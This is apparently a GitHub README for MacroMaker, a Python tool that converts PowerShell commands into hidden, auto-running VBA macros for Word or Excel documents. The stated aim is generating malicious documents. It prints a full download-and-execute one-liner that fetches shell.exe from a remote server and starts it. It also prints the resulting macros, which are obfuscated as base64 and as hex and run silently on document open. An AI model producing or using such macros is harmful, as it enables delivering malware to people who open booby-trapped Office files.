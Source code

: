 # MacroMaker
*****************************
### what is Macros :
* Macros are special-purpose programs used to automate procedures within a bigger application or software. Usually a macro consists of a series of      commands and actions written in a dedicated Macro Language or a standard programming language. These commands will be executed automatically by the application when a certain trigger takes place.

* Macros are implemented extensively within Office Suites to allow the automation of common tasks and procedures. Different suites use different macro  languages, but some notable mentions are Visual Basic for Applications (MS Office), LibreOffice Basic (LibreOffice) and OpenOffice Basic (OpenOffice).

* Most Office macro languages have rather extensive features and can access various resources. For example, MS Office macros (written in VBA) can run  executables and use networking capabilities.
* Macro  can  use to  generate malicious  Microsoft Word or Microsoft Excel document  
* [reference](https://www.cynet.com/attack-techniques-hands-on/office-macro-attacks/)
* [Microsoft Doc](https://support.microsoft.com/en-us/office/macros-in-office-files-12b036fd-d140-4e74-b45e-16fed1a7e5c6)
### what is MacroMaker-
-------------------------------------
 * MacroMake is Script witten by python3 help to genertate  VBA  code ready to use
  - MacroMaker Take the powershell command as  aragnent  then will treanset the command to VBA code,  
  ready to  executed automatically any command  in  background
    - Executes PowerShell   or Uses networking capabilities to download files from remote servers ..etc
 * MacroMaker have to way to Gentate thr VBA code 
   - encode base16
   - hexformat

### How to enable-develope   -
-------------------------------------
 ### - enable Develope mode  to can inster macro in to microsoft-office 
 *  The Developer tab isn't displayed by default, but you can add it to the ribbon.
 - 1- On the File tab, go to Options > Customize Ribbon.
 - 3- Under Customize the Ribbon and under Main Tabs, select the Developer check box.
 * [reference](https://www.groovypost.com/howto/enable-developer-tab-microsoft-office-ribbon/)

 ## How to Use MacroMacker - 
 -----------------------------------------
 * git clone https://www.github.com/jac11/MacroMaker.git
 * cd MacroMaker
 * chmod +x MacroMaker.py
 * to see the help list MacroMaker.py -h/--help
 ## explain :-
----------------------------------------
 incace i need to download file and exctue after download i use powershaell  - 
 ```
 (New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')
 ```
- this code will download file from the server then will excxut it transfer download to use as VBA use Macromacker
- ./Macromaker.py <-c the poweshell code > <-n the file name to  save output > 
- ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
$ ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
* output VBA Script 
```

Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Str As String
	Str= str+"powershell -e KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQA"
	Str= str+"LgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAE"
	Str= str+"YAaQBsAGUAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQA5ADUALgAx"
	Str= str+"ADAAMAAuADIAMgAxADoAOAAwADAAMAAvAHMAaABlAGwAbAAuAGUAeA"
	Str= str+"BlACcALAAnACAAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMA"
	Str= str+"XABEAG8AYwB1AG0AZQBuAHQAcwBcAHMAaABlAGwAbAAuAGUAeABlAC"
	Str= str+"cAKQA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAoACcAIABD"
	Str= str+"ADoAXABVAHMAZQByAHMAXABQAHUAYgBsAGkAYwBcAEQAbwBjAHUAbQ"
	Str= str+"BlAG4AdABzAFwAcwBoAGUAbABsAC4AZQB4AGUAJwApAA=="
	CreateObject("Wscript.shell").Run Str , 0, True 
End Sub



```
* to use same command and get  output  as hex  code user --hex option
```
./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code --hex
```
* output 
```
Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Hex As String
	Hex ="powershell.exe $hexString ='"& _
	"28 4e 65 77 2d 4f 62 6a 65 63 74 20 4e 65 74 2e 57 65 62 43 6c 69 65 6e 74 29 2e"& _
	" 44 6f 77 6e 6c 6f 61 64 46 69 6c 65 28 27 68 74 74 70 3a 2f 2f 31 30 2e 31 39 35"& _
	" 2e 31 30 30 2e 32 32 31 3a 38 30 30 30 2f 73 68 65 6c 6c 2e 65 78 65 27 2c 27 20"& _
	" 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c 73"& _
	" 68 65 6c 6c 2e 65 78 65 27 29 3b 53 74 61 72 74 2d 50 72 6f 63 65 73 73 20 28 27"& _
	" 20 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c"& _
	" 73 68 65 6c 6c 2e 65 78 65 27 29'"& _
	";$hexString.Split(' ') | forEach {[char]([convert]::toint16($_,16))}"& _
	"| forEach {$result = $result + $_};Set-Variable -Name 'ROT' -Value ($result);Invoke-Expression $ROT "
	Set WshShell = CreateObject("Wscript.Shell")
	WshShell.Run Hex, 0, True
End Sub
```
* output  will save in the MacroStore folder under the name  user give it - n <the name >
  
<img src = "images/1.png" width=350>  <img src = "images/2.png" width=350>
-----------------------------------------------------------------
### video tutorial
--------------------
* [video tutorial](https://www.youtube.com/watch?v=B_i066ZqvPc)
- rootx1982@gmail.com
-  thank you 
